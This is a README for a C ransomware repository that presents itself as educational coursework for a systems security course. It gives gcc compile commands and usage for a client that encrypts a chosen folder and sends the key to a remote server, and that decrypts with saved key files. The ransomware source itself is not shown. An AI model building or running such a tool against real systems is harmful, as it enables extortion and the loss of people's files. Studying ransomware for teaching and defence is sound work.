 # ransomwareV2

Developement repository for C ransomware - Developement cursus

# Goal

this project is part of the Systems Security Development course

The purpose is strictly educational and its use is reserved for demonstration purposes



# How to make it work
Start by editing the `server_ip` variable (line 314 in `client.c` and line 19 in `server.c`) to match your situation, you can also change the `server_port` variable for some reason the default port (9999) doesn't suit your needs.

## Compiling

### Scripted method
```bash
Scripts/compile.sh client && Scripts/compile.sh server
```

### Manual method

```bash
gcc -w client.c -o client -lm -lcrypto
gcc -w server.c -o server -lm -lcrypto
```

## Execution

### Server side
Needs to be executed before the client, the key exchange happens before encryption and won't complete if TCP connection is not fullfilled.

```bash
./server
```

### Client side

```bash
./client [Root Folder] [-e/-d]
```
If you use `-e` it will encrypt and send the key to the remote server
If you use `-d` it will decrypt the folder, you need hower to have `key.bin` and `iv.bin` in the **same folder** as the executable.
